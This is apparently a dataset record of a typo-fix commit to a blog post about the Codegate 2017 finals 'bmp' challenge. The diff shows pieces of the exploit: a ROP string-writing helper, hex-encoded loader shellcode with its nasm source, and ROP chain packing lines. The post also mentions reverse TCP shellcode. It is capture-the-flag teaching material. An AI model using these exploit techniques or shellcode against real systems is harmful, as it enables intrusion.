

Before and after one commit to blukat29/blukat29.github.io, a Jekyll site: the page built from _posts/2017-04-14-codegate-2017-finals-bmp.md, in a window 1280 px wide and 1400 px high, scrolled down 3606 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
[update] Typo

````diff
--- a/_posts/2017-04-14-codegate-2017-finals-bmp.md
+++ b/_posts/2017-04-14-codegate-2017-finals-bmp.md
@@ -179,7 +179,7 @@
 
 Now we just need to write the shellcode at `.data` and jump to there. But because `copy_palette_402720` function zeros a byte every four byte of the payload, we cannot simply call `memcpy()` on the stack address. We had to use multiple ROP gadgets to write 3 bytes at a time.
 
-```
+```py
 def rop_put_str(where, what):
     what = what + '\0'*(3 - (len(what) % 3)) # Pad to 3-byte unit.
     rop = ''
@@ -196,8 +196,7 @@
 
 But we could not send long reverse TCP shellcode (around 500 bytes) with this rudimentary method simply because stack was not large enough. So we only copied short "loader" shellcode this way. The loader shellcode below copies the real shellcode body from stack to `.data` section and then jumps to it.
 
-```asm
-; "9489c583c004bac8000000b930e05900bf04000000bb030000008b30893101f801d94a75f5be30e0590089ec".decode("hex")
+```nasm
 loader:
     xchg eax, esp
     mov ebp, eax
@@ -217,6 +216,10 @@
 
     mov esi, 0x59e030
     mov esp, ebp
+
+; Compiles to "9489c583c004bac8000000b930e05900bf04000000bb030000008b30893101f801d94a75f5be30e0590089ec".decode("hex")
+; Below were harmless null bytes (add  byte ptr [eax], al)
+; So the execution reaches the actual shellcode at 0x0x59e030
 ```
 
 ### 5. Shellcode and exploit
@@ -280,7 +283,6 @@
 over += pack(_data)         # must be writable pointer.
 over += pack(ret)*10        # consumed by pops and ret.
 
-
 ### Put loader code
 
 def rop_put_str(where, what):
@@ -299,7 +301,6 @@
 over += pack(popesi)
 over += pack(_data)
 over += pack(callesi) # After call esi, esp + 4 points to the start of main shellcode.
-
 
 ### Put main shellcode
 
````
Also changed, not shown: other parts of _posts/2017-04-14-codegate-2017-finals-bmp.md (+1 -1 lines).
